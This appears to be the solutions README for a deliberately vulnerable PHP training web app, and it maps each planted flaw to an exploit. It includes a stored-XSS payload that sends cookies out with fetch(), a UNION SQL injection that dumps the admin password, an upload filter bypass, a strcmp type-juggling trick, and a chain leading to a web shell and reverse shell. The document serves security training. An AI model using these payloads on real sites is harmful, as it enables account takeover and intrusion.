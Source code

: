
## Solutions & vulnerability locations

**Comments - comments.php**

Name and Comment field should accept something like:
```
{
'name':'name',
'comment':'<script>fetch("http://127.0.0.1:8888",{method: "post",mode: "no-cors",body:document.cookie});</script>'
}
```
Comments and names are stored on the MySQL db and automatically loaded when the page is refreshed.

With a python listener on the host machine, a script like the above should return a cookie.  Since this is not a real website, you'll have to manually log in to test it.

**Order Form - order.php**

Saves an order as an XML file. Only the webadmin account can review orders. Send some XXE here for later.

**Products Page - Products.php**

Very open to SQL injection.  Once authenticated as a base user, the attacker can get the webadmin password with something in the product search like:
```
1 UNION SELECT NULL, Username, Password FROM users WHERE Username = "webadmin"
```

**Gallery - social.php**

Reasonable file upload filter, but still weak.  This filter will catch files ending in php, but not php.jpg.  This should work:
`evil.php.jpeg`
Then, if an attacker has also grabbed the webadmin password from the products page, from the admin portal they can rename uploads and change the file to `evil.php`.

I've included a cmd.php file in the Notes folder if you want to test it.

## Admin-only Pages

**Admin - admin_page.php**

This page contains a way to list uploaded image files and rename or delete them, as well as a way to view XML order forms. Both allow for RCE and potentially a reverse shell, depending on the exploitation path.  Maliciously uploaded image files can be renamed, and XML orders can be viewed. The "recover image" functionalty doesn't let you recover images submitted by other users.  Its there in case you delete something and want it back.  XML orders files, uploaded images, and 'deleted' images are in the Resources folder path of the source code.

An image file can be accessed at the localhost:8000/resources/user_images/<evil.file> path.

**Reset Password - reset_pw.php**

PHP type juggling.  This page does not check to see if the user for which the password is being changed is the same user that is logged in.  It just sets the $username_entered variable equal to whatever $_POST['Username'] is.  It does, however, check the $new_password against the $username_entered password in the DB.  

The syntax in the logic is vulnerable:
```
if (($_POST['new_password'] == $_POST['new_password2']) && (strcmp($_POST['old_password'],$password) == 0)){
```
The first half of this section checks that the new password is entered twice, identically.  The second half compares the DB and user-supplied password to ensure that they are the same.  The `== 0` comparison is weak.  PHP evaluates empty arrays as false, which is also "equal to" zero.  Intercepting the HTTP request and changing the 'old_password' to an empty array should allow an attacker to reset the webadmin's password to whatever they like.  Something like this should work:

```
In Burp Suite or another proxy, change old_password=foobar to old_password[]=''
```

**View Orders - view_order.php**

This page renders user provided XML (in the form of an "order form") to the webadmin user.  This should be useful for leveraging XXE attacks submitted via the 'Order Form' page. Orders are automatically assigned numeric names in ascending order.

**continue.php**

This page reflects the user name back to an authenticated user.  Untested, but likely will accept XSS or other input based attacks.  User name is committed to the DB.  No functionality to add a new user or "sign up" is included in the site currently, so it would be difficult to exploit without DB injection.

**db.php**

Hard-coded database credentials are not securely stored, and are left in the default webroot file path.

## No deliberate exploit path, but probably vulnerable anyway due to lazy development ##
- **login.php**
- **logout.php**
- **php.ini** This is just here for docker.
- **phpinfo.php** Included for fun, and can be attacked.
- **continue.php**

This page reflects the user name back to an authenticated user.  Untested, but likely will accept XSS or other input based attacks.  User name is committed to the DB.  No functionality to add a new user or "sign up" is included in the site currently, so it would be difficult to exploit without DB injection.

- **secretdir.php**

The file "secretdir" just holds functions.  It initially was for something else, but I never renamed it.  

## Example Attack Path

**As a user**
1. Stored XSS via comments to obtain user cookie
2. Authenticate with user cookie (or just skip this step and log in as a user from the start)
3. upload a shell with a .php.jgp extension on the 'Gallery' page. Other script types may work, like sh.jpg.
4. Navigate to products page
5 SQLi products page via union select for webadmin password

OR

PHP type juggling to reset webadmin password

Alternatively, attempt an XXE injection on the "Orders page" for later use.

**As webadmin**
1. authenticate as webadmin
2. admin page is now available, although there is no button.  It is admin_page.php.
The admin_page.php site is available after logging in as "webadmin" and clicking the "click here to continue message". A new link for the admin portal should appear.
3. change shell from jpg to php extension
4. use uploaded shell for RCE at /resources/user_images/<filename.php>
5. attempt reverse shell

Alternatively, review the XXE order you placed earlier.
